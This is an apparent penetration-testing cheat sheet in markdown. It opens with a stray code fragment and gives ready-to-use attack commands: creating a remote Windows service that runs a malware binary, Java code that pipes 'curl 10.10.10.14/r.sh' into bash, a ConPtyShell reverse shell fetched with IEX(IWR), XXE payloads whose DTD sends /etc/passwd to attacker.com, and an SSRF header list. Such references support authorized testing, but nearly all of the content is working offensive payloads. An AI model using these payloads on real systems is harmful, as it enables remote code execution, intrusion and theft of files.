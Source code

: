 ```bash
fi
```
### Register Service on a Remote Machine
```console
sc \\10.10.100.1 create newservice binpath= C:\Temp\Malware.exe start= auto obj= <username> password= <password>
```
### Java: Execute Command
```java
Process process = Runtime.getRuntime().exec("curl 10.10.10.14/r.sh | bash");
// execute command from specific directory
Process process = Runtime.getRuntime().exec(
	new String[]{"powershell", "-c", "iwr", "-uri", "10.10.10.14/r.exe", "-Outfile", "."}, null, new File("C:\\Temp\\")
);
```
### ConPTYShell
#### Server
```bash
# You probably want to modify strings in the PowerShell script
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
mv Invoke-ConPtyShell.ps1 pty.ps1
stty raw -echo; (stty size; cat) | nc -nlvp 3001
```
#### Target
```powershell
IEX(IWR http://10.10.14.14/pty.ps1 -UseBasicParsing); Invoke-SomePtySh 10.10.14.14 3001
```
### Out-of-Band XXE Interaction
- Using external entity
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkgfafwaklax.interactsh.com"> ]>
```
- Using parameter entity
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkdwytuu763ax.interactsh.com"> %xxe; ]>
```
#### Data exfiltration with parameter entities
> Host file `malicious.dtd` with the following contents
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
- Then deliver the following payload to the vulnerable application which downloads the `malicious.dtd` from the attackers server and executes the XML
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
### SSRF Header List
> should be able to copy and paste into single request to test for SSRF
```console
Base-Url: 127.0.0.1
Client-IP: 127.0.0.1
Http-Url: 127.0.0.1
Proxy-Host: 127.0.0.1
Proxy-Url: 127.0.0.1
Real-Ip: 127.0.0.1
Redirect: 127.0.0.1
Referer: 127.0.0.1
Referrer: 127.0.0.1
```